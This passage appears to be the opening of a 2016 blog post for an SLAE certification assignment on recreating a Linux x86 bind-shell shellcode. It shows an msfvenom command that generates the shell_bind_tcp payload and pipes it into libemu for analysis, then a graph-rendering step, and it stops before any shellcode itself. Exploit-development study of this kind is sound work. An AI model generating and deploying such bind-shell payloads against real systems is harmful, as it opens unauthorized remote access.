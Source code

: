 ```yaml
---
layout: post
title: "SLAE Assignment #1 | Bind shell"
date: 2016-03-28
comments: true
categories:
---
```


This post is the assignment in the SLAE exam for recreating a bind shell shellcode.

Lets first analyse the structure of the shellcode with libemu:

```
root@kali:~# msfvenom --platform=linux -a x86 -p linux/x86/shell_bind_tcp| /opt/libemu/bin/sctest -vSs 1000000 -G out.dot
root@kali:~# dot -Tpng out.dot -o out.png
```